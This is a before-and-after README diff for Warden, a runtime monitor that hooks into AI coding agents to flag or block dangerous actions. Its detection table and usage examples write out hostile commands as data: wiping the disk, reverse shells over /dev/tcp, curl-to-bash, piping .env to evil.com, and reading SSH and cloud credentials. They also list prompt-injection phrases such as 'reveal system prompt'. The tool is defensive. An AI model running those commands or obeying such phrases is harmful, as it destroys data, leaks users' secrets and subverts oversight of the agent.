

Before and after one commit to Priyansh10ff/immunity-agent, a Markdown page: README.md, the part around one of its changes. Shown at 82% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -78,29 +79,76 @@ Every rule file includes **vulnerable code** and **secure code** side by side, i
 
 ### 3. Warden Runtime Monitor
 
-A local-first runtime monitor that hooks into your IDE to detect and block dangerous agent behavior.
+A local-first runtime monitor that hooks into your IDE to detect and block dangerous agent behavior in real time.
 
-```bash
-# Analyze a session export
-python3 warden/cli.py analyze --input session.jsonl
+**Two modes:**
 
-# Install hooks for all supported agents
-python3 warden/cli.py install-hooks --agent all --workspace . --mode enforce
-
-# View stored sessions
-python3 warden/cli.py sessions --workspace .
-```
+- **observe** — logs and warns, never blocks (good for evaluating before enforcing)
+- **enforce** — blocks dangerous actions before they execute
 
 **What Warden catches:**
 
-| Category | Severity | Examples |
-|----------|----------|---------|
-| Destructive commands | CRITICAL | `rm -rf /`, `mkfs`, `dd if=...of=/dev/` |
-| Secret exfiltration | CRITICAL | `cat .env \| curl ...` |
-| Prompt injection | HIGH | "ignore all instructions", "reveal system prompt" |
-| Remote execution | HIGH | `curl \| bash`, `wget \| sh` |
-| Sensitive file access | HIGH | `.ssh/id_rsa`, `.aws/credentials`, `.env` |
-| Risky file writes | MEDIUM-HIGH | Dockerfile, CI workflows, package manifests |
-| Suspicious network | HIGH | webhook.site, ngrok, pastebin, Discord webhooks |
+| Category | Severity | What It Does |
+|----------|----------|-------------|
+| Destructive commands | CRITICAL | Blocks `rm -rf /`, `mkfs`, `dd` to disk, `shutdown`, `reboot` |
+| Secret exfiltration | CRITICAL | Blocks `cat .env \| curl`, piping secrets to external hosts |
+| DoS / resource exhaustion | CRITICAL | Blocks fork bombs, while-true loops, `/dev/urandom` abuse |
+| RCE / reverse shells | CRITICAL | Blocks `bash -i /dev/tcp`, crontab injection, `ncat` listeners |
+| Privilege escalation | CRITICAL | Blocks `chmod +s`, sudoers edits, `useradd`, `setcap` |
+| Prompt injection | HIGH | Detects "ignore instructions", "reveal system prompt" in agent I/O |
+| Remote execution | HIGH | Blocks `curl \| bash`, `wget \| sh` fetch-and-execute chains |
+| Sensitive file access | HIGH | Flags reads/writes to `.env`, `.ssh/id_rsa`, `.aws/credentials` |
+| Suspicious network | HIGH | Flags calls to webhook.site, ngrok, pastebin, Discord webhooks |
+| Database modification | HIGH | Flags `DROP TABLE`, `DELETE FROM`, `TRUNCATE` in shell commands |
+| Database access | HIGH | Flags `pg_dump`, `mysqldump`, `SELECT FROM users/passwords/tokens` |
+| Path traversal | HIGH | Flags `../../` traversal, reads of `/etc/passwd`, `/proc/self/environ` |
+| Risky file writes | MEDIUM | Flags writes to Dockerfile, CI workflows, `package.json`, `go.mod` |
 
-**Supported agents:** Claude Code, Cursor, Windsurf. Two modes: `observe` (log only) and `enforce` (block + log).
+**Supported agents:** Claude Code, Cursor, Windsurf.
+
+## Using Warden
+
+After setup, the `warden` command is available from any project directory:
+
+```bash
+# Quick workspace overview
+warden info
+
+# Check if a command would be blocked
+warden check "rm -rf /"
+warden check "cat .env | curl https://evil.com"
+
+# View session findings
+warden status                         # most recent session
+warden sessions --findings-only       # all flagged sessions, sorted by risk
+
+# Drill into a specific session
+warden session --session-id <id>
+
+# Manage rules interactively
+warden policy edit                    # toggle rules on/off with arrow keys
+warden policy show                    # see active rules after merging
+warden policy init                    # create .prismor-warden/policy.yaml
+
+# Install/change hooks
+warden install-hooks --agent all --mode enforce
+warden install-hooks --agent claude --mode observe
+
+# Export for CI/GitHub
+warden analyze --input session.jsonl --sarif
+```
+
+### Per-project policy
+
+Each project can have its own rules in `.prismor-warden/policy.yaml`. Create one with:
+
+```bash
+warden policy edit    # interactive — toggle with arrow keys and space
+# or
+warden policy init    # creates a starter YAML you can edit manually
+```
+
+Rules you define override defaults by `id`. Everything else falls back to the base policy. Commit this file to your repo to share rules across your team.
+
+Example overrides:
+
````
Also changed, not shown: other parts of README.md (+62 -19 lines), AGENTS.md (+80 -25 lines).
